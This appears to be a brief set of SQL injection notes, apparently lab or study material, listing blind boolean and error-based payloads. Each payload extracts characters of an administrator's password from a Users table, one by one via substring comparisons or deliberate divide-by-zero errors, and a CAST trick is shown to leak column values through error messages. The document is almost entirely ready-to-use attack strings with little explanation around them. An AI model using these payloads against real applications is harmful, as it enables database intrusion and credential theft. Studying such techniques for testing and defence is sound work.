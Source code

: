 
determine if the first symbol of password is greater than 'm':
```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```

then try next symbol and so on.


##### Error based SQL
```sql
(SELECT CASE WHEN ((select substr(password,6,1) from users where username='administrator')='a') THEN '' ELSE TO_CHAR(1/0) END FROM dual)
```
convert one type to another
```sql
CAST((SELECT example_column FROM example_table) AS int)
```
example_column value will be displayed in the error
